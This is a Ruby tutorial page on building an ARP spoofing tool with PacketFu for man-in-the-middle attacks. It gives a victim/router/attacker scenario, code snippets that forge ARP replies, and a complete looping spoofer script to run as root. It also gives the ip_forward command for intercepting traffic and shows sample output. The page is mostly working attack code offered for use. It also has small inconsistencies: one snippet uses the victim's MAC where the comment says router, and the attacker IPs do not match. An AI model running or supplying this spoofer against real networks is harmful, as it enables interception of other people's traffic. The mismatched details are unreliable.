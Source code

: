 # ARP Spoofing
As you know, ARP Spoofing attack in the core of MitM attacks. In this part we'll know how to write simple and effective ARP spoofer tool to use it in later spoofing attacks.

#### Scenario
We have 3 machines in this scenario as shown below.
```
             |Attacker|
                 |
                 ٧
|Victim| -----------------> |Router| ---> Internet
```
Here the list of IP and MAC addresses of each of theme in the following table[^1]

| Host/Info |   IP Address  |    MAC Address    |
|-----------|:-------------:|:-----------------:|
| Attacker  | 192.168.0.100 | 3C:77:E6:68:66:E9 |
| Victim    | 192.168.0.21  | 00:0C:29:38:1D:61 |
| Router    | 192.168.0.1   | 00:50:7F:E6:96:20 |

To know our/attacker's interface information

```ruby
info = PacketFu::Utils.whoami?(:iface => "wlan0")
```
returns a hash
```
{:iface=>"wlan0",
 :pcapfile=>"/tmp/out.pcap",
 :eth_saddr=>"3c:77:e6:68:66:e9",
 :eth_src=>"<w\xE6hf\xE9",
 :ip_saddr=>"192.168.0.13",
 :ip_src=>3232235533,
 :ip_src_bin=>"\xC0\xA8\x00\r",
 :eth_dst=>"\x00P\x7F\xE6\x96 ",
 :eth_daddr=>"00:50:7f:e6:96:20"}
```
So you can extract these information like any hash `info[:iface]`, `info[:ip_saddr]`, `info[:eth_saddr]`, etc..


**Building victim's ARP packet**
```ruby
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # the router's IP
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply
```

**Building router packet**
```ruby
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # the router's MAC address
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply

```

**Run ARP Spoofing attack**
```ruby
# Send our packet through the wire
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end
```
Source[^2]

Wrapping all together and run as `root`

```ruby
#!/usr/bin/env ruby
#
# ARP Spoof Basic script
#
require 'packetfu'

attacker_mac = "3C:77:E6:68:66:E9"
victim_ip    = "192.168.0.21"
victim_mac   = "00:0C:29:38:1D:61"
router_ip    = "192.168.0.1"
router_mac   = "00:50:7F:E6:96:20"

info = PacketFu::Utils.whoami?(:iface => "wlan0")
#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_victim.eth_daddr = victim_mac          # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_victim.arp_daddr_mac = victim_mac      # the victim's MAC address
arp_packet_victim.arp_saddr_ip = router_ip        # the router's IP
arp_packet_victim.arp_daddr_ip = victim_ip        # the victim's IP
arp_packet_victim.arp_opcode = 2                  # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_router.eth_daddr = router_mac          # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_router.arp_daddr_mac = router_mac      # the router's MAC address
arp_packet_router.arp_saddr_ip = victim_ip        # the victim's IP
arp_packet_router.arp_daddr_ip = router_ip        # the router's IP
arp_packet_router.arp_opcode = 2                  # arp code 2 == ARP reply

while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end

```

> Note: Don't forget to enable packet forwarding on your system to allow victim to browse internet.

> `echo "1" > /proc/sys/net/ipv4/ip_forward `

Returns, time to wiresharking ;)
```
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
```




---
[^1]: Create table the easy way - [Table Generator](http://www.tablesgenerator.com/markdown_tables)

[^2]: Source: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
